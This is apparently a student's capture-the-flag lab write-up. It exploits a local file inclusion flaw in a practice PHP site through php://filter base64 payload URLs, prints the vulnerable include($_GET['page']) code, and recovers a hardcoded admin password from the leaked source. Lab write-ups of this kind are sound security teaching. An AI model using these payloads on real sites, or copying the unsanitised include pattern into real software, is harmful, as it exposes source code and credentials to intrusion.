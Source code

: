 # Simple Web 0x08(Lab - My First Meow Website)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8400/
Target: Login as Admin

## Background
[PHP 偽協議 (一) ](https://ithelp.ithome.com.tw/articles/10245020)
[Web Security 0x1](https://youtu.be/_hasOTGximc?t=2855)

## Exploit
1. Observe
According to the URL, `http://h4ck3r.quest:8400/?page=inc/home`, it might have `LFI` problem.
2. Use `php://filter` to read page
    `http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=inc/home`
    :::spoiler page source code
    ```php=
    <!DOCTYPE html>
    <html lang="en">

    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Meow</title>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.2/css/bulma.min.css">
    </head>

    <body>
        <nav class="navbar is-dark" role="navigation" aria-label="main navigation">
            <div class="navbar-brand">
                <a class="navbar-item" href="/?page=inc/home">🐱</a>
            </div>

            <div id="navbarBasicExample" class="navbar-menu">
                <div class="navbar-start">
                    <a class="navbar-item" href="/?page=inc/home">
                        Home
                    </a>
                    <a class="navbar-item" href="/?page=inc/about">
                        About
                    </a>
                    <a class="navbar-item" href="/admin.php">
                        Admin
                    </a>
                </div>
            </div>
        </nav>

        <div class="container" style="margin-top: 1em;">
            <?php
            if (isset($_GET['page']))
                include($_GET['page'] . ".php");
            else
                include("inc/home.php");
            ?>
        </div>
    </body>

    </html>
    ```
    :::
3. Observe page source code
We know that `admin.php` is under `/` directory.
`http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=admin`
    :::spoiler admin source code
    ```php=
    <h1>Admin Panel</h1>
    <form>
        <input type="text" name="username" value="admin">
        <input type="password" name="password">
        <input type="submit" value="Submit">
    </form>

    <?php
    $admin_account = array("username" => "admin", "password" => "kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ");
    if (
        isset($_GET['username']) && isset($_GET['password']) &&
        $_GET['username'] === $admin_account['username'] && $_GET['password'] === $admin_account['password']
    ) {
        echo "<h1>LOGIN SUCCESS!</h1><p>".getenv('FLAG')."</p>";
    }

    ?>
    ```
    :::
4. Then we get admin password is: `kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ`. Then we got flag!!!